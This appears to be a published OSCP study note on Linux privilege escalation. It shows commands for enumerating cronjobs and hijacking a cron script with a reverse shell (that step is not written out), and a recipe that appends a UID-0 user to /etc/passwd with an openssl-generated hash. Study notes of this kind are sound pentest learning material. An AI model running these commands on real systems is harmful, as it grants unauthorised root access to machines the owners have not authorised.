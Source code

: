 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/j-linux-privilege-escalation/5-insecure-file-permissions/","updated":"2024-01-05T11:36:16.173+01:00"}
---
```


------------
## Abusing Cronjobs
1. Enumerate cronjobs:
```
# Cronjobs for all users
ls -lah /etc/cron*

#User-created cronjobs for the current user
crontab -l

#Running cronjobs:
grep "CRON" /var/log/syslog
cat /var/log/cron.log
```
2. Inspect running script:
```
cat /home/joe/.scripts/user_backups.sh
```
3. Edit script to add reverse shell. Win!

------
## Abusing /etc/passwd
- Historically hashes could be stored alongside user information in /etc/passwd
- If one can edit /etc/passwd a hash can be placed for a user it takes precedence over /etc/shadow, hence arbitrary password and user change
1. Generate password hash:
```
openssl passwd <arbitrarypassword>
```
2. Echo the hash plus user info into /etc/passwd:
```
echo "<username>:<hash>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
3. Switch user to your new user and provide the password:
```
su <newuser>
```
4. Win!

